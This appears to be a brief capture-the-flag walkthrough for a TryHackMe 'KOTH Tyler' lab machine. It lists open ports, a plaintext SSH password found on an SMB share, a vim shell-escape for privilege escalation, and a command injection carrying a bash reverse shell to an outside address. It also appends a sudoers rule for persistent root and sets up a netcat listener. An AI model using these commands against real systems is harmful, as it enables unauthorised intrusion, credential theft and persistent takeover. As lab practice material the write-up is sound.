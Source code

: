 # KOTH TYLER

----------------
## IP: `10.10.243.130`<br />

----------------
### Open Ports -<br/>

```
22
80
139
445
3306
5000
8080
```

![image](image.png)

##### Initial access -<br/> 

![image](image.png)

```
smbclient //tyler.thm/public
```

> we can get narrator's ssh password from here<br/>

username: narrator<br/>
password: X8JEETQmf3hkS65f<br/>

##### Privilege escalation of user `narrator`

```
vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

### subdirectory - `betatest`

`tdurden;bash -i >& /dev/tcp/10.8.91.66/8888 0>&1`

> Same Priv-Esc as of narrator using vim <br/>

##### To get full root access -

```
echo "tdurden ALL=(ALL:ALL) NOPASSWD:ALL" >> /etc/sudoers
```

Then just do, `sudo bash` voilà you're root<br/>

##### Upload a `python` rev-shell on PORT `5000`

`http://tyler.thm:5000`<br/>

```
nc -lnvp <port>
```

![image](image.png)
